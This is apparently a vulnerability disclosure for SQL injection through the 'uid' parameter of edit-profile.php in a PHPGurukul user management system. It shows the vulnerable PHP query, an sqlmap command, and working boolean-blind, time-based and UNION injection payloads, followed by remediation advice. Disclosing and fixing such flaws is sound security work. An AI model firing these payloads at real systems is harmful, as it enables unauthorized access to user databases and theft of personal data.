

#  SQL Injection via `uid` GET Parameter in `edit-profile.php` in User Registration & Login and User Management System With Admin Panel ≤ v3.3


### 👨‍💻 BUG Author:

**4m3rr0r**

---

### 📦 Product Information:

* **Vendor Homepage**: [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link**: [User Registration & Login and User Management System With Admin Panel](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version**: <= **v3.3**


---

### 🛠 Vulnerability Details:

#### 🧨 Vulnerability Type:

**SQL Injection (Time-Based, Boolean-Based Blind, and UNION-Based)**

#### 🧬 Root Cause:

The `uid` parameter from the GET request on `edit-profile.php` is directly interpolated into SQL queries without proper sanitization or use of prepared statements.

#### ⚠️ Impact:

An authenticated attacker can:

* Extract database names
* Bypass application logic
* Read sensitive user information (e.g., contact details, email, etc.)
* Potentially escalate privileges or maintain persistent access

#### 📋 Description:

In the vulnerable endpoint:

```php
$userid = $_GET['uid'];
$query = mysqli_query($con, "select * from users where id='$userid'");
```

The `uid` parameter is unsafely embedded into an SQL query, leading to a direct injection point exploitable via SQLMap.

---

### 🔬 Proof of Concept (PoC)

#### ⚙️ SQLMap Command (Authenticated Session Required):

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/edit-profile.php?uid=1" \
--cookie="PHPSESSID=8daj6ivnvks7g2hckqohqeuo18" \
--batch --risk=3 --level=5 --dbs
```

 


#### ✅ Injection Types Identified:

```
Parameter: uid (GET)
    Type: boolean-based blind
    Payload: uid=1' AND 4107=4107-- iIis

    Type: time-based blind
    Payload: uid=1' AND (SELECT 4572 FROM (SELECT(SLEEP(5)))fYCC)-- XhJw

    Type: UNION query
    Payload: uid=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a626271,0x4665586763554a50624250577075546b70754a65426275784753676c464e505957514d62574e5078,0x7178717171)-- -
```

---

### 🛡 Suggested Remediation:

* Use **parameterized queries** or **prepared statements** in all SQL queries.
* Validate and sanitize all user input using whitelisting.
* Avoid directly using `$_GET` variables in queries without checks.

---

### 🔐 Security Recommendations:

* Enforce least privilege on the database user.
* Implement Web Application Firewall (WAF) rules.
* Sanitize output and error messages.
* Conduct regular code audits and pentests.

---

### 📚 References:

* [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)


---
